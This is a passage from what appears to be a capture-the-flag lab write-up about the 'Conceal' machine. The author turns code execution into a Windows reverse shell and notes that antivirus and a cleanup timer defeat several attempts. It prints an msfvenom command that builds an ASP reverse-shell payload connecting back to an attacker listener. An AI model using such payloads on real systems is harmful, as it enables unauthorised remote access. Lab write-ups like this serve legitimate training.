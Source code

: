 ![user1](./conceal/user1.png)

That is code execution. Try to get a dedicated ASP reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 \
         -f asp \
         -o bubba.shell.asp
```

However this also hangs... This definitely is starting to look like AV... Trying a few things here did not work. Trying a custom C Win32 reverse shell EXE or DLL was also caught (this usually works...). Trying a PowerShell reverse shell connected but quickly was disconnected. After fiddling around, it seems like something is also going around and removing all the files in `/upload` after a certain timer expires:
